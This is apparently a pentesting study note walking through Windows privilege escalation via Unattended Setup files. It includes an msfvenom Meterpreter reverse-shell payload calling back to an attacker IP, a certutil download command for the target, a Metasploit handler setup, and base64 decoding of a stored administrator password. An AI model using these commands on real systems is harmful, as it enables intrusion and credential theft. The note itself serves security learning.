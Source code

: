 #### Unattended Windows Setup 
+ The <mark style="background: #BBFABBA6;">Unattended Windows setup</mark> utility will typically utilize one of the following configuration files that contain user account and system configuration information:
	+ `C:\Windows\Panther\Unattend.xml`
	+ `C:\Windows\Panther\Autounattend.xml`
+ As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be <mark style="background: #ADCCFFA6;">encoded in base64</mark>

On a unprivileged windows account, can check for other users with `net user`
	+ can also so the unprivileged accounts privileges with `whoami /priv`

On a Kali OS, we will generate a reverse shell with <mark style="background: #D2B3FFA6;">msfvenom</mark>
+ Example: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.2 LPORT=1234 -f exe > payload.exe`

With the payload, can set up a simple http server with the python module <mark style="background: #D2B3FFA6;">SimpleHTTPServer</mark> on the Kali OS
+ Example: `python -m SimpleHTTPServer 80`
+ Now we can go to the windows computer we are attacking, and use the server we are running on the Kali os to allow the windows computer to download the payload 

On the windows computer we are attacking, can <mark style="background: #ADCCFFA6;">download the payload</mark> with <mark style="background: #D2B3FFA6;">certutil</mark>
+ Example: `certutil -urlcache -f http://10.10.9.2/payload.exe payload.exe` where the IP is the Kali computer 

Will now go into <mark style="background: #FF5582A6;">msfconsole</mark> to set up the handler
+ Can do so with: `service postgresql start && msfconsole`
+ Will then `use multi/handler`
	+ `set payload windows/x64/meterpreter/reverse_tcp`
	+ `set LPORT 1234`
	+ `set LHOST 10.10.9.2`
+ Will now have a <mark style="background: #BBFABBA6;">reverse shell</mark> after running it, can find the `unattend.xml` and `download` it

When we `cat` the `unattend.xml`, we will scroll till we see `<AutoLogon>`
+ Example:
``` xml
<AutoLogon>
    <Password>
        <Value>QWRtaW5AMTIz</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>administrator</Username>
```
+ Here we can see the administrators password, and that it is <mark style="background: #BBFABBA6;">base64</mark> encoded because the `<PlainText>` value is **false**

To remove the <mark style="background: #BBFABBA6;">base64</mark> encoding, will do the following:
+ `vim password.txt` and paste the encoded password in it
+ Utilize the <mark style="background: #D2B3FFA6;">base64</mark> tool with the `-d` option to decode
	+ Example: `base64 -d password.txt`
		+ which outputs `Admin@123`
